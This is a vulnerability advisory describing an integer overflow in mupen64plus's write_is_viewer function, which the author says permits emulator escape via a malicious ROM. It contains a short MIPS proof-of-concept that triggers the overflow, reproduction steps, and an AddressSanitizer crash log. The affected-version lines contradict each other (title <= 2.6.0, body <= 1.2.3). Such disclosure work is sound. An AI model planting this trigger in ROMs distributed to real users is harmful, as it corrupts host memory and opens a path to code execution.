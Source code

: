 ## Title: Integer Overflow and Virtual Machine Escape in mupen64plus <= 2.6.0

**BUG_Author:** Li Gangyang, USTC/TTCN


**Affected Version:** mupen64plus ≤ 1.2.3

**Vendor:** [mupen64plus emulator](https://mupen64plus.org/)

**Software:** [mupen64plus-core](https://github.com/mupen64plus/mupen64plus-core/)

**Vulnerability Description:**  Mupen64Plus is a cross-platform, plugin-based N64 emulator that can accurately run many games. It includes four MIPS R4300 CPU emulators, a dynamic recompilation engine that supports 32-bit x86 and 64-bit amd64 systems, and plugins for audio, graphics rendering, signal co-processors, and input.

The Mupen64Plus emulator has an integer overflow vulnerability in its write_is_viewer function. An attacker can exploit this vulnerability by injecting malicious code into a game's ROM package, allowing them to escape the emulator and achieve arbitrary code execution on the host machine.


#### Vulnerability Analysis

Both `is_viewer->buffer_pos` and `word` are variables of type uint32_t, so their addition may result in integer overflow, causing the result to become smaller.

```c
// https://github.com/mupen64plus/mupen64plus-core/blob/2.6.0/src/device/cart/is_viewer.c#L59
void write_is_viewer(void* opaque, uint32_t address, uint32_t value, uint32_t mask)
{
    struct is_viewer* is_viewer = (struct is_viewer*)opaque;
    address &= IS_ADDR_MASK;
    uint32_t word = value & mask;
    if (address == 0x14)
    {
        if (word > 0)
        {
            /* make sure we don't overflow the buffer */
            if (is_viewer->buffer_pos + word > IS_BUFFER_SIZE)
            {
                /* reset buffer */
                memset(is_viewer->output_buffer, 0, IS_BUFFER_SIZE);
                is_viewer->buffer_pos = 0;
                DebugMessage(M64MSG_WARNING, "IS64: prevented buffer overflow, cleared buffer");
                return;
            }

            memcpy(&is_viewer->output_buffer[is_viewer->buffer_pos], &is_viewer->data[0x20], word);
            ...
        }
        ...
    }
    ...
}
```

![](./asserts/write_is_viewer.png)

- poc.asm

```
.section .shellcode,"awx"
.global _start
_start:
li    $a0, 0x93ff0014
li    $a1, 0xe00
sw    $a1, 0($a0)
li    $a1, 0xfffffffc
sw    $a1, 0($a0)
```


- reproduction

```
$ docker run -itv $(pwd):/mupen64plus --rm ubuntu:22.04 
root@c563c255a375:/# apt-get update
root@c563c255a375:/# apt-get install -y libasan6 libsdl2-2.0-0 libgl1 libglu1-mesa libvulkan1 libbinutils
root@c563c255a375:/# cd /mupen64plus/ 
root@c563c255a375:/mupen64plus# ./mupen64plus ./maliao.z64
...
==1484==ERROR: AddressSanitizer: memcpy-param-overlap: memory ranges [0x7f76e91c9258,0x7f76e91ca258) and [0x7f76e91c8278, 0x7f76e91c9278) overlap
    #0 0x7f76ed7c41ed in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827
    #1 0x7f76e7b99834 in write_is_viewer ../../src/device/cart/is_viewer.c:68
    #2 0x7f76e7c349e6 in mem_write32 ../../src/device/memory/memory.h:87
    #3 0x7f76e7c35f9c in r4300_write_aligned_word ../../src/device/r4300/r4300_core.c:372
    #4 0x7f76e7c9ec4c in dynarec_write_aligned_word ../../src/device/r4300/recomp.c:961
    #5 0x7f76c65b5082  (<unknown module>)

0x7f76e91c9258 is located 21311320 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
0x7f76e91c8278 is located 21307256 bytes inside of global variable 'g_dev' defined in '../../src/main/main.c:114:15' (0x7f76e7d76300) of size 21318904
SUMMARY: AddressSanitizer: memcpy-param-overlap ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:827 in __interceptor_memcpy
==1484==ABORTING
```

![](./asserts/write_is_viewer.asan.png)